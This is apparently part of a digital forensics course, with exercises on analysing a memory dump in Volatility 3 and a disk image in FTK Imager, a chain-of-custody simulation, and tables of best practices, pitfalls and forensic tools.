### 📝 Exercise 1: Memory Analysis Drill

**Objective**: Given a memory dump, identify a suspicious process and its C2.

**Scenario**: You are given `drill1.raw` — a memory image from a compromised server.

1. Run `windows.info` to verify the image — what OS is this?
2. Run `windows.pstree` — identify any process with an anomalous parent
3. Run `windows.cmdline` on the suspicious PID — what command was run?
4. Run `windows.netscan` — what external IP is the process connecting to?
5. Run `windows.malfind` on the suspicious PID — are there RWX regions?
6. Document your findings in the chain of custody form

- [ ] OS version from `windows.info`
- [ ] PID and name of malicious process
- [ ] Command line arguments
- [ ] C2 IP address
- [ ] Confirmation of injected code (RWX regions)
- [ ] Completed chain of custody entry

### 📝 Exercise 2: Disk Image Analysis

**Objective**: Correlate disk artifacts with memory findings using FTK Imager.

**Scenario**: You have `drill1.dd` — the disk corresponding to the memory dump.

1. Mount the disk image with FTK Imager (read-only)
2. Locate Prefetch files — what executables ran recently?
3. Check the USN Journal for file creation events at the time of compromise
4. Extract browser history to find the source of the malware download
5. Check `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\RunMRU`
6. Compare your findings to the memory analysis from Exercise 1

- [ ] List of recently executed files (Prefetch)
- [ ] Timeline of file creation (USN Journal timestamps)
- [ ] Source URL of malware download (browser history)
- [ ] RunMRU entries from Registry
- [ ] Completed correlation table matching memory + disk artifacts

### 📝 Exercise 3: Chain of Custody Simulation

**Objective**: Practice proper evidence documentation through a simulated handoff.

**Scenario**: You acquire a memory image from an incident response call at 14:30 on 
2026-06-28. At 15:00, you transfer the evidence to the forensic analyst (partner).

1. Fill out the Chain of Custody form for the initial acquisition
2. Fill out Entry #1 for the transfer (you → partner)
3. Your partner analyzes the image (15:00–16:00) and returns it at 16:00 — fill Entry #2
4. Calculate the SHA256 hash of the image and record it
5. Write a brief narrative describing how you maintained chain of custody

- [ ] Completed Chain of Custody form with all entries
- [ ] SHA256 hash value documented
- [ ] Written narrative of custody procedures

## 📝 Best Practices & Final Assessment

### Forensic Examination Golden Rules

| Rule | Why |
|------|-----|
| **Never work on original evidence** | Always make a verified copy — any analysis tool modifies data |
| **Use hardware write blockers** | Physical write blockers are court-tested and prevent any writes |
| **Hash before and after every action** | Prove no modification occurred during your analysis |
| **Document everything** | If it isn't documented, it didn't happen (for court) |
| **Maintain chain of custody** | Every transfer, every access, every action must be logged |
| **Use a clean analysis workstation** | Never analyze evidence on a potentially compromised system |

### Common Pitfalls

| Pitfall | Consequence | How to Avoid |
|---------|-------------|--------------|
| **Working on original drive** | Taints evidence, destroys court admissibility | Always image first, analyze the copy |
| **Missing RAM capture** | Lose encryption keys, running processes, C2 connections | Capture memory before powering off |
| **No hash verification** | Cannot prove evidence integrity | Hash at acquisition, verify at every transfer |
| **Gaps in chain of custody** | Evidence excluded from court | Log every handoff, no exceptions |
| **Using untested tools** | Tool behavior may be questioned in court | Use forensically validated tools (NIST CFRT) |

### Tools Summary

| Tool | Purpose | Platform | License |
|------|---------|----------|---------|
| **Volatility 3** | Memory analysis (processes, network, injection) | Cross-platform (Python) | Open Source (GPLv2) |
| **FTK Imager** | Disk imaging, preview, mounting | Windows | Free (forensic use) |
| **dd / dcfldd** | CLI disk acquisition with hashing | Linux/Unix | Open Source (GPL) |
| **Foremost / Scalpel** | File carving from disk images | Cross-platform | Open Source |
| **Arsenal Image Mounter** | Mount forensic images on Windows | Windows | Free |
| **hashdeep / md5deep** | Recursive hash computation | Cross-platform | Open Source |

### Final Knowledge Check

- [ ] Can you acquire a memory image with `winpmem`?
- [ ] Can you run `windows.pstree`, `windows.netscan`, and `windows.malfind` and interpret results?
- [ ] Can you acquire a disk image with `dd` (Linux) or FTK Imager (Windows)?
- [ ] Can you verify image integrity with SHA256 hashing?
- [ ] Can you mount a forensic image for analysis?
- [ ] Can you complete a chain of custody form correctly?
- [ ] Can you correlate memory and disk findings into a timeline?
- [ ] Can you write an incident verdict based on forensic evidence?

> 💾 **Bottom Line**: Memory forensics catches what disk forensics misses (fileless malware, injected code, live C2 connections). Disk forensics provides the persistent artifacts that survive reboot. Together with proper chain of custody, they form an unbroken chain from incident to admissible evidence in court.
